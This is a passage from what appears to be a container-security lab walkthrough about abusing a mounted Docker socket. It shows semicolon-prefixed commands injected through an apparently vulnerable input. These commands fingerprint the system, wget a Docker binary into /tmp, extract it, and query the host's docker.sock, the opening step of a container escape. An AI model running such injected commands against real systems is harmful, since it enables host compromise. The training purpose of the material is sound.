## Interacting with Docker sock
* Next we can download the official `docker` static binary from the internet [https://download.docker.com/linux/static/stable/](https://download.docker.com/linux/static/stable/). In order to determine which binary we need, we can run the following command for system discovery

```bash
;uname -a
```

* We can examine the output to determine our system architecture and OS, then download the appropriate docker binary to the container. For example, if our target system is a x86\_64 Linux box, we can use the following command

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz
```

* We can extract the binary from the `docker-19.03.9.tgz` file so that we can use that to talk to the UNIX socket

```bash
;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```

![Scenario 2 extract binary](./sc-2-4.png)

* Now we can access the host system by running the following docker commands with passing `docker.sock` UNIX socket

```bash
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```

![Scenario 2 list host images](./sc-2-6.png)
```